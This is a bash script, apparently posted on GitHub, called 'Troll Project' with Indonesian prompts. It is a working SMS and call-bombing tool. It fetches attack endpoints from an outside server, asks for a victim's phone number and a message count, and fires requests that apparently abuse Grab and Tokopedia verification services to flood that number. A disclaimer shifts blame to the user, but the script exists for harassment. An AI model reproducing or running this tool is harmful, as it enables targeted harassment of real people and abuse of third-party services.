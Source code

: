 #!/bin/bash
#///////////////////////////////////////////////////////////////////////////////
#///////////////////////////////////////////////////////////////////////////////
#////                       _            _  __                              ////
#////                      | |          (_)/ _|                             ////
#////                   ___| |_   _  ___ _| |_ ___ _ __                     ////
#////                  |_  / | | | |/ __| |  _/ _ \ '__|                    ////
#////                   / /| | |_| | (__| | ||  __/ |                       ////
#////                  /___|_|\__,_|\___|_|_| \___|_|                       ////
#////                                                                       ////
#///////////////////////////////////////////////////////////////////////////////
#///////////////////////////////////////////////////////////////////////////////
#PERINGATAN : KESALAHAN ATAU KEJAHATAN ADALAH TANGGUNG JAWAB DARI PEMAKAI
#GUNAKAN TOOLS UNTUK KEBAIKAN JANGAN DISALAH GUNAKAN :)
troll(){
    clear
    sleep 0.03
    echo "         _ "
    sleep 0.03
    echo "        /_)  _.-===-._ "
    sleep 0.03
    echo "       /  .; '_-.'- .'.     _ "
    sleep 0.03
    echo "  __ _/  /.'\ ._  '. , \   (_\ "
    sleep 0.03
    echo " /\_( \  |.'.-._'- .  '|     \ "
    sleep 0.03
    echo " |_)  /  |/'    ''--''\|     _\__ "
    sleep 0.03
    echo " \_)_|  /'  ._.   ._.  '\   / )(_\ "
    sleep 0.03
    echo " )/  (  \_      _      _/   \' (_| "
    sleep 0.03
    echo " /   /    \           /     _) (_/ "
    sleep 0.03
    echo " |   '',_ _'._'---'_.'_ _,.'    | \ "
    sleep 0.03
    echo " \    /  \ \  '''''  / / /     /   \ "
    sleep 0.03
    echo "  \_.'    \ \       / /  |   .' "
    sleep 0.03
    echo "   '--.,   \ \     / /  _;-'' "
    sleep 0.03
    echo "       '|   \ \   / /   | "
    sleep 0.03
    echo "       .;----'''''''----;. "
    sleep 0.03
    echo "      /(                 )\ "
    sleep 0.03
    echo "      \_''-------------''_/ "
    sleep 0.03
    echo "      | '';-----;-----;'' | "
    sleep 0.03
    echo "      | / : \ / : \ / : \ | "
    sleep 0.03
    echo "      |V.','.V.','.V.','.V| "
    sleep 0.03
    echo "      \'./_\.;./_\.;./_\.'/ "
    sleep 0.03
    echo "       ';..___________..;' "
    sleep 0.03
    echo " ============================="
    sleep 2
    echo " ==      Troll Project      =="
    sleep 0.7
    echo " ============================="
}
load(){
    echo -e "\n"
    bar=" >>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>> "
    barlength=${#bar}
    i=0
    while((i<100)); do
        n=$((i*barlength / 100))
        printf "\e[00;32m\r[%-${barlength}s]\e[00m" "${bar:0:n}"
        ((i += RANDOM%5+2))
        sleep 0.2
    done
}
get_sms=$(curl -s http://zlucifer.com/api/sms.php)
get_call=$(curl -s http://zlucifer.com/api/call.php)
mulai (){
    echo "Gunakan Troll Project Lagi?"
    echo "y/n?"
    echo
    read lagi
    if [ $lagi = "y" ]; then
            spam
    else
            echo "Terimakasih sudah menggunakan Troll project"
    fi
}
#spam
spam(){
    clear
    troll
    echo
    echo "[1] Spam SMS"
    echo "[2] Spam Telp"
    echo "[3] Close Troll Project"
    echo
    echo "1/2/3?"
    read pilih
    if [ $pilih = "1" ]; then
            echo "Troll Spam SMS"
            #function spam
            echo
            echo "Silahkan masukan nomor telp target"
            echo contoh 0812345678
            read target # masukin no telp
            echo
            echo "Berapa sms yang mau dikirim?"
            read paket
            echo
            echo Apakah nomor $target "dan SMS dikirim "$paket" sudah benar?"
            echo y/n?
            read confirm
            echo
            if [ $confirm = "y" ]; then
                    load
                    clear
                    echo Melakukan spam SMS ke nomor $target
                    echo
                    echo "Jangan close aplikasi sebelum spam selesai"
                    echo "========================================"
                    target_do=$get_sms'/sms.php?nomor='$target'&paket='$paket
                    CURL_RESPONSE=`curl -s -o /dev/null -w "%{http_code}" $target_do`
                    echo " Gunakan tools dengan bijak"
                    echo
                    echo " Love u always "
                    echo " -zLucifer"
                    echo "======================================="
            else
                    echo "Kesalahan"
            fi
        mulai
    elif [ $pilih = "2" ]; then
            echo "Troll Spam Call"
            #function spam
            echo
            echo "Silahkan masukan nomor telp target"
            echo contoh 0812345678
            read target # masukin no telp
            echo
            echo "Gunakan API Grab/Toped?"
            echo "[1] GRAB"
            echo "[2] TOPED"
            echo "1/2?"
            read api
            if [ $api = "1" ]; then
                  api_spam="grab"
            else
                  api_spam="toped"
            fi
            echo Apakah nomor $target dan spam menggunakan $api_spam "sudah benar?"
            echo y/n?
            read confirm
            echo
            if [ $confirm = "y" ]; then
                  load
                  clear
                  echo Melakukan spam call ke nomor $target
                  echo
                  echo "Jangan close aplikasi sebelum spam selesai"
                  echo "========================================"
                  cek_target=`curl -s $get_call/call.php?nomor=$target"&method="$api_spam`
                  echo -e $cek_target
                  echo " Gunakan tools dengan bijak"
                  echo
                  echo " Love u always "
                  echo " -zLucifer"
                  echo "========================================"
            else
                  echo Kesalahan, silahkan coba lagi
            fi
        mulai
    elif [ $pilih = "3" ]; then
        echo "Terimakasih sudah menggunakan Troll project"
        close
    else
        clear
        echo "Kesalahan"
        mulai
    fi
}
close(){
    exit
}
clear
echo "Loading.."
load
clear
troll
echo Selamat datang Di Project S.Adi.A #tulisan keluar
read nick #membaca yang ditulis
clear
echo "Loading.."
load
clear
troll
echo Selamat datang $nick ":)"
echo
echo "Mulai troll project?"
echo "y/n?"
read mulai
if [ $mulai = "y" ]; then
      spam
else
      close
fi
